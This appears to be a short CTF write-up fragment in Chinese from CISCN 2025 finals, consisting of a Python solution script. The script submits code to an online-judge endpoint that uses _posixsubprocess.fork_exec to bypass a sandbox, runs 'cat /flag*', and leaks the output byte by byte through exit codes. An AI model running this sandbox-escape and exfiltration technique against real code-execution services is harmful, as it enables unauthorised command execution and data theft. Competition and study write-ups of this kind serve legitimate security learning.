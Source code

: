 解题脚本：

```python
import requests

url = "http://121.41.238.106:20570/"

payload = """
import os
import _posixsubprocess
import sys

cmd = b'cat /flag*'
std_pipe = os.pipe()
_posixsubprocess.fork_exec([b"/bin/sh",  b"-c" , cmd], [b"/bin/sh"], True, (), None, None, -1, -1, -1, std_pipe[1], -1, -1, *(os.pipe()), False, False,False, None, None, None, -1, None, False)
flag = os.read(std_pipe[0], 1024)
sys.exit(flag[{i}])
"""

result = ''
for i in range(0, 100):
    data = {
        "code": payload.format(i=i),
        "problem_id": 0,
    }
    r = requests.post(url=url+"api/submit", json=data)
    resp_data = r.json()
    assert resp_data["status"] == "RE"
    result += chr(int(resp_data["message"][19:]))
    print(result)
```


### （Teru）CISCN 2025 总决赛 Day1 hardphp